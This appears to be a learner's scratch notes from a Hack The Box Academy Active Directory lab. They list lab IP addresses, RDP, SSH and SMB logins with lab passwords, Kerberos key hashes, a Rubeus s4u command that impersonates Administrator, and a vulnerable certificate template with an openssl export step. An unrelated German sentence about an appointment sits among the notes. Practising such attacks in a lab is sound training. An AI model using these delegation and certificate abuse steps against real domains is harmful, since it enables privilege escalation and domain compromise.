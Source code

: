 - IPs
  - DC1: 172.16.18.3
  - DC2: 172.16.18.4
  - Server01: 172.16.18.10
  - PKI: 172.16.18.15
  - WS001: DHCP or 172.16.18.25 (depending on the section)
  - Kali Linux: DHCP or 172.16.18.20 (depending on the section)


- WS001
xfreerdp /v:$TARGET /u:eagle\\bob /p:Slavi123 +clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

xfreerdp /v:172.16.18.3 /u:htb-student /p:'HTB_@cademy_stdnt!'+clipboard /dynamic-resolution /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows 

htb-student:HTB_@cademy_stdnt!

- Kali
ssh kali@$TARGET
xfreerdp /v:$TARGET /u:kali /p:kali +clipboard /dynamic-resolution /drive:linux,/home/kalilearn/workspace/hacklab/academy/Attackwindows 

- Moving files alternative
smbclient \\\\$TARGET \\Share -U eagle/administrator%Slavi123
put
get

webservice
http/DC1
FCDC65703DD2B0BD789977F1F3EEAECF

[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF
[*]       aes128_cts_hmac_sha1 : 89E50DBF46388A7DBDB3EAAE80C6030F
[*]       aes256_cts_hmac_sha1 : D7480FABB291BDAC59D66B97812C3382A02AB9895D1C1B95A1AF520BAE08488B
[*]       des_cbc_md5          : 3D62D0CBEFB6D39B

.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /mdsspn:"http/dc1" /dc:dc1.eagle.local

```
Ich habe einen Termin für den 4.12.2024, aber da ich schon alle Unterlagen habe, versuche ich einen früheren zu bekommen. Falls ich einen früheren Termin bekommen, werde ich den für Dezember stornieren.
```

CA Name                               : PKI.eagle.local\eagle-PKI-CA
    Template Name                         : UserCert
    Schema Version                        : 4
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication
 request 

 openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

  /drive:linux,/home/kaliwork/workspace/hacklab/academy/Attackwindows
HTB_@cademy_stdnt!